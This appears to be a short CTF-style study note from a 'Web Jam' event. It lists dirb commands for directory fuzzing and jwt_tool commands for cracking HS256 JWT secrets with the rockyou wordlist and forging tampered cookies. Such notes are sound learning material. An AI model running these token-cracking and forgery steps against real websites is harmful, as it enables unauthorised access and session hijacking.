 # Web Jam!

New skills during Web Jam:

## Directory fuzzing

`dirb http://<web_url> /usr/share/wordlists/dirb/common.txt`

(this might take a while)


## Cracking JWT cookies

- Go to jwt.io and plug in that cookie to see what those fields are!
- Downloaded jwt_tool (see [hacktricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens))
- Crack an HS256 key: `python3 jwt_tool <JWT> -C -d /usr/share/wordlists/rockyou.txt` (this might take a while)
- Tamper with cookie: `python3 jwt_tool <JWT> -S hs256 -p "<cracked_key>" -I -hc <claim> -pv <value>`

Then feed the website with the tampered cookie
